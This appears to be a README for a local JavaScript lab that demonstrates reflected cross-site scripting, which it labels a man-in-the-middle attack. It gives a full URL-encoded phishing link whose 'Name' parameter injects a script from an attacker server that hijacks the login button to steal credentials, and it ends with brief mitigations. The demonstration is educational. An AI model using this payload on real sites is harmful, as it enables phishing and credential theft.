

# Perform Man In The Middle (MITM) attach using Javascript

## Install yarn and dependencies through 'yarn' or 'npm'

I prefer yarn over npm, but npm can be used as well. Whenever you wish to execute the command just replace 'npm' with 'yarn'.

Install dependencies through yarn:  
`yarn install`

## Lite-Server

Upon executing `yarn install` command, it installs the `lite-server` package/library in the project (node_modules).

***Lite-Server*** as the name suggests is the very light web server with minimum execution facility, purely meant to display web pages.

## Configuration

***package.json*** consists of project management and tunning configuration. We have defined two lite-server for our purpose for attacker and victim. 

## Execute Hacker 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 3000, for the attacker, using command `yarn run lite-server` using the `bs-config.json`.

Screenshot:  

## Execute Victim 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 4000, for the attacker, using command `yarn run lite-server-victim` using the `bs-config-victim.json`.

Screenshot:  

## Set the bait for Victim

We will set the bait for the Victim by emailing the victim with the chance to win prize on the legitimate webserver domain by changing the values in the parameter. The legitimate webserver running for the domain localhost:4000. 

URL/Link:  
`http://localhost:4000/?Name=John%20Doe%20you%20have%20Big%20Bonanza%20Offer:%20%3Cinput%20type=%27button%27%20title=%27Big%20Bonanza%20Offer%27%20value=%27Scratch%20Card%27%20onclick=%22if(document.getElementById(%27SomeFlag%27)==undefined)%20{%20maliciousScript%20=%20document.createElement(%27script%27);%20maliciousScript.src%20=%20%27http://localhost:3000/ManInTheMiddelAttack.js%27;%20document.body.appendChild(maliciousScript);%20someFlag%20=%20document.createElement(%27SomeFlag%27);%20someFlag.id%20=%20%27SomeFlag%27;%20document.body.appendChild(someFlag);%20alert(%27You%20will%20get%20an%20email%20notification%20for%20the%20offer%27);%20setTimeout(%20function()%20{%20injectManInTheMiddleScript();%20}%20,%201000);%20}%20%22%20/%3E`

URL Explanation:  
- We have not changed the domain name at all. 
- The hack is place as the value for the parameter 'Name'.
- The value of the 'Name' Parameter is:
    * John Doe you have Big Bonanza Offer: <input type='button' title='Big Bonanza Offer' value='Scratch Card' onclick="if(document.getElementById('SomeFlag')==undefined) { maliciousScript = document.createElement('script'); maliciousScript.src = 'http://localhost:3000/ManInTheMiddelAttack.js'; document.body.appendChild(maliciousScript); someFlag = document.createElement('SomeFlag'); someFlag.id = 'SomeFlag'; document.body.appendChild(someFlag); alert('You will get an email notification for the offer'); setTimeout( function() { injectManInTheMiddleScript(); } , 1000); } " />
- The value gets embedded as an innerHtml within the page performing the exploit as follows:  
  
- Upon clicking the ***bait*** link will gets a message:  
    * Behind the scene a Malicious javascript file get attached to the web page  
        
        
    * The login button click functionality is replaced by a function Malicious javascript, which executes the login button click along with sending the secret detail to the other link or url  
    * Loading Script:  
        
    * Malicious Script  
        
    * Execution of Legit Code along with Malicious Code  
      

## Steps to overcome this attack

- Never execute any long URL without reading them correctly even though the domain is legit
- Web developers should prohibit the user or innerHTML to display HTML. As we have seen it could be hacked in real life.
